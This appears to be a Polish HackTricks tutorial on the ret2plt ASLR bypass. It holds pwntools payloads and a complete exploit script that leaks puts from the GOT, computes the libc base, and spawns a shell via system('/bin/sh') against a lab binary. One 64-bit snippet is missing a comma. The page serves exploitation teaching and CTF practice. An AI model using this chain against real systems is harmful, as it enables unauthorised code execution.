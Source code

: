 # Ret2plt

{{#include ../../../banners/hacktricks-training.md}}

## Podstawowe informacje

Celem tej techniki jest **wyciek adresu z funkcji z PLT**, aby móc obejść ASLR. Dzieje się tak, ponieważ jeśli na przykład wyciekniesz adres funkcji `puts` z libc, możesz następnie **obliczyć, gdzie znajduje się baza `libc`** i obliczyć przesunięcia, aby uzyskać dostęp do innych funkcji, takich jak **`system`**.

Można to zrobić za pomocą ładunku `pwntools`, takiego jak ([**stąd**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got)):
```python
# 32-bit ret2plt
payload = flat(
b'A' * padding,
elf.plt['puts'],
elf.symbols['main'],
elf.got['puts']
)

# 64-bit
payload = flat(
b'A' * padding,
POP_RDI,
elf.got['puts']
elf.plt['puts'],
elf.symbols['main']
)
```
Zauważ, jak **`puts`** (używając adresu z PLT) jest wywoływane z adresem `puts` znajdującym się w GOT (Global Offset Table). Dzieje się tak, ponieważ w momencie, gdy `puts` drukuje wpis GOT dla puts, ten **wpis będzie zawierał dokładny adres `puts` w pamięci**.

Zauważ również, jak adres `main` jest używany w exploicie, więc gdy `puts` kończy swoje wykonanie, **binarne wywołuje `main` ponownie zamiast kończyć** (więc wyciekający adres będzie nadal ważny).

> [!CAUTION]
> Zauważ, że aby to zadziałało, **binarne nie może być skompilowane z PIE** lub musisz **znaleźć wyciek, aby obejść PIE**, aby znać adres PLT, GOT i main. W przeciwnym razie musisz najpierw obejść PIE.

Możesz znaleźć [**pełny przykład tego obejścia tutaj**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass). To był ostateczny exploit z tego **przykładu**:
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
'A' * 32,
elf.plt['puts'],
elf.sym['main'],
elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
libc.sym['exit'],
next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```
## Inne przykłady i odniesienia

- [https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html)
- 64 bity, ASLR włączone, ale bez PIE, pierwszym krokiem jest wypełnienie przepełnienia do bajtu 0x00 kanarka, aby następnie wywołać puts i wyciek. Z kanarkiem tworzony jest gadżet ROP do wywołania puts, aby wyciekł adres puts z GOT, a następnie gadżet ROP do wywołania `system('/bin/sh')`
- [https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html)
- 64 bity, ASLR włączone, brak kanarka, przepełnienie stosu w main z funkcji podrzędnej. Gadżet ROP do wywołania puts, aby wyciekł adres puts z GOT, a następnie wywołanie jednego gadżetu.

{{#include ../../../banners/hacktricks-training.md}}
